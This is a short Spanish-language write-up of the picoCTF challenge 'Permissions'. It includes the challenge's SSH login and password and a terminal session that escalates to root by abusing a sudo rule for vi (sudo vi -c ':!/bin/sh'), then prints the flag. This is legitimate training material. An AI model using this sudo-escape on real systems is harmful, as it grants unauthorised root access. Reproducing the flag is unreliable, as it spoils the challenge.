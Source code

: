 **Reto:** Permissions

**Descripción:**
¿Puedes leer archivos en el archivo raíz?El administrador del sistema ha proporcionado una cuenta para usted en el servidor principal:`ssh -p 59156 picoplayer@saturn.picoctf.net`Contraseña:`yX-YQgX-vS`¿Puedes iniciar sesión y leer el archivo raíz?
**Solución:**
picoplayer@challenge:/$ ls
bin  boot  challenge  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
picoplayer@challenge:/$ cd challenge/
-bash: cd: challenge/: Permission denied
picoplayer@challenge:/$ id
uid=1000(picoplayer) gid=1000(picoplayer) groups=1000(picoplayer)
picoplayer@challenge:/$ sudo -67
sudo: invalid option -- '6'
usage: sudo -h | -K | -k | -V
usage: sudo -v [-AknS] [-g group] [-h host] [-p prompt] [-u user]
usage: sudo -l [-AknS] [-g group] [-h host] [-p prompt] [-U user] [-u user] [command]
usage: sudo [-AbEHknPS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] [VAR=value] [-i|-s] [<command>]
usage: sudo -e [-AknS] [-r role] [-t type] [-C num] [-g group] [-h host] [-p prompt] [-T timeout] [-u user] file ...
picoplayer@challenge:/$ sudo -l 
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:/$ sudo vi -c ':!/bin/sh' /dev/null

#id
uid=0(root) gid=0(root) groups=0(root)
#ls
bin  boot  challenge  dev  etc  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
 cd challenge/
#ls
metadata.json
#cat metadata.json
{"flag": "picoCTF{uS1ng_v1m_3dit0r_55878b51}", "username": "picoplayer", "password": "yX-YQgX-vS"}# 
**Notas adicionales:**

**Referencias:** 
https://youtu.be/wmUP8Ck2X-4?si=Ly0k7pS71To73SEF
